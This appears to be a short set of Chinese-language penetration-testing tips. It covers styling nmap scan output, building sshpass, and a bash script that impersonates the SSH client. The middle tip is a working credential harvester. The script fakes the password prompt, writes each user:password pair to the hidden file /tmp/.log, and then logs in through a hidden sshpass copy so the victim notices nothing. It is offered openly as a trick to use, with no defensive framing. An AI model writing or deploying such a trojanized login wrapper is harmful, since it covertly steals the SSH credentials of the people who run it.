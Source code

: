 - nmap结果使用bootstrap美化：

  ```
  nmap -sS -T4 -A -sC -oA scanme --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl scanme.nmap.org scanme2.nmap.org

  xsltproc -o scanme.html nmap-bootstrap.xsl scanme.xml
  ```

- 伪装SSH，记录输入密码，类似键盘记录样：

  ```
  #!/bin/bash

  if [ $# != "1" ]    #加个简单的判断
  then 
      /usr/bin/ssh
  else
      echo -e "${1}'s password: \c"
      read -s pass
      echo $1":"$pass >> /tmp/.log    #输出结果更美观
      echo ""
      /tmp/.sshpass -p "$pass" /usr/bin/ssh ${1}
  fi
  ```

- SSH只接受标准化输入的内容，也就是不能使用的常见的管道符将密码发送给SSH连接，选择使用 **sshpass**将密码发送给SSH连接 下载地址：<https://sourceforge.net/projects/sshpass/> 下载后，编译安装使用：

  ```
  ./configure
  make install

  ./sshpass -p "password" ssh user@remotehost
  ```

  ​